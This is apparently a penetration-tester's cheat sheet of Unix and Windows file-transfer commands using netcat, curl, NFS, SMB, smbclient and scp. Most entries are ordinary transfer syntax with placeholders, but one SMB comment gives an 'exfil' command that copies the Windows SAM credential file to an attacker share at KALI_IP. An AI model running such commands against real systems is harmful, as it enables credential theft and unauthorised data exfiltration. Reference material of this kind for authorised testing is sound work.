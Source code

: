 # Unix File Transfers

## Netcat

##### start listener on target
```sh
nc -nlvp [PORT] > [RECIVING.FILE]
```
##### send the file
```bash
nc [IP] [PORT] < [SENDING.FILE]
```

## Curl

```sh
curl -F "upload=@[FILE]" https://[IP]/[FILE]
```

```bash
curl -o [FILE] https://[IP]/[FILE]
```


## NFS Shares

```sh
sudo mkdir -p /mnt/share1
mount -t nfs -o vers=3 [IP]:/[FOLDER]/ /mnt/[SHARE]
```
```sh
sudo mkdir -p /mnt/share1
mount -t nfs -o vers=2 [REMOTE_IP]:/home/ /mnt/[SHARE]
```
##### Unmount
```sh
sudo umount /mnt/[SHARE]
```
##### Mount at Boot
```sh
[IP]:/[SHARE]/[FOLDER]  /mnt/[SHARE]  nfs  defaults,vers=3  0  0
```


## SMB Shares

##### Mount SMB Share
```sh
sudo mount -t cifs -o vers=1.0 //[REMOTE_IP]/'[SHARE]' /mnt/[SHARE]
```
##### Host SMB Share
```sh
sudo impacket-smbserver [SHARE] .
# to use for exfil: copy C:\Windows\Repair\SAM \\KALI_IP\share\sam.save
```
##### Upload from Target
```bash
copy C:\Path\To\[FILE] \\[IP]\[SHARE]\[FILE]
```
##### Upload with curl to Target
```sh
curl --upload-file /Path/To/[FILE] -u 'DOMAIN\[USER]' smb://[IP]/[SHARE]/
```
##### Use smbclient to Get ALL files from an SMB share
```sh
smbclient //[IP]/[SHARE]
RECURSE ON
PROMPT OFF
mget *
```

### SCP
##### Copy TO Remote Machine
```sh
scp /[LOCAL_PATH]/[FILE] [USER]@[IP]:/[REMOTE_PATH]/[FILE]
```

##### Copy FROM Remote Machine
```sh
scp [USER]@[IP]:/[REMOTE_PATH]/[FILE] /[LOCAL_PATH]/[FILE]
```